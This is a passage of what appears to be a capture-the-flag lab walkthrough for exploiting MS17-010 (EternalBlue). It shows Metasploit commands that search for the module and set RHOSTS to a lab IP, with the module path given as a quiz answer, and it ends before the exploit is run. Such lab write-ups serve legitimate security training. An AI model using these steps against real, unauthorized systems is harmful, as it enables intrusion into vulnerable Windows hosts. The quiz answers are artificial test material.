 ## [Task 2] Gain Access

Exploit the machine and gain a foothold.

1. Start Metasploit

`No answer needed`

2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

```
msf5 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

`exploit/windows/smb/ms17_010_eternalblue`

3. Show options and set the one required value. What is the name of this value? (All caps for submission)

```
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.166.97
RHOSTS => 10.10.166.97
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
```
